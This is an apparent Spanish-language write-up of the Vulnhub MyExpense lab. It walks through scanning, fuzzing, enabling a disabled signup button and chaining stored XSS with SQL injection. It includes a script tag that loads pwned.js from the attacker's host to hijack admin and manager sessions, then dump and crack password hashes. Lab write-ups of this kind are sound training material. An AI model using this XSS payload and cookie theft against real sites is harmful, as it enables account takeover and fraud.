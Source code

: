 ```yaml
---
tags:
  - WriteUp
---
```

---
***Vulnhub - MyExpense***: https://www.vulnhub.com/entry/myexpense-1,405/

![[Pasted image 20250113195054.png]]

![[Pasted image 20250113200525.png]]

`nmap -p80,40375,40749,47297,56569 -sCV 192.168.2.106 -oN targeted`

Luego del escaneo nos creamos una cuenta en la web que tienen la VM

En este punto haremos un escaneo de directorios a ver si encontramos algo
![[Pasted image 20250113202134.png]]

De manera que podemos ver un directorio admin y mediante wapalyzer sabemos que dentro de ese directorio se usa php por lo que haremos fuzzing en ese directorio buscando archivos php ![[Pasted image 20250113203043.png]]
vemos que existe un archivo admin.php
![[Pasted image 20250113203126.png]]

Aca veremos de crear una cuenta y ver de ejecutar un XSS pero al crear un cuenta nos dice que esta inhabilitado, pero al ser una pagina de puro html podemos desabilitar el bloqueo de ese boton
![[Pasted image 20250113203714.png]]

Y como vemos se acontese la vulnerabilidad 
![[Pasted image 20250113203834.png]]

Ahora debido a esto crearemos un script en javascript y mediante el XSS haremos una petición a nuestro pc para ejecutar el script (recordar montar con python el http), lo que sucede es que al intentar robar la cookie del administrador que vimos que esta por el servidor este esta conectado al mismo por lo que no podemos usarla lo que podemos hacer que redirigir al administrador para que habilite sin intención nuestro usuario ya que al intentar activarlo nos dice que solo puede hacerlo un admin

El archivo javascript sera el siguiente y básicamente debe hacer la labor de redirigir al administrador
![[Pasted image 20250113211233.png]]

Cuando ejecute el servidor nuestro script ya podremos autenticarnos con el usuario con el que teniamos credenciales
![[Pasted image 20250113211749.png]]

por lo tanto ahora podemos enviar la peticion pero esta solo sera envida, como vemos en nuestra cuenta tenemos un manager que debe aceptarla
![[Pasted image 20250113211945.png]]

Por lo que en la pagina de inicio donde se pueden mandar mensajes robaremos las cookies de sesión mediante un XSS de los usuarios normales y veremos si llegamos a obtener el de nuestro manager

antes de esto metemos el XSS para que lea el .js `<script src="http://192.168.2.110:4646/pwned.js"></script>`

![[Pasted image 20250113213629.png]]

luego mediante un injeccion sql desde el usuario de donde capturamos la cookie y obtendremos nombres de los usuarios con sus respectivas contraseñas, pero las obtendremos hasheadas por lo que las debemos crackear en este caso con hashes.com
![[Pasted image 20250113221636.png]]
La consetaseña de pbaudouin es HackMe finalmente. Por lo que ya podemos aceptarnos el pago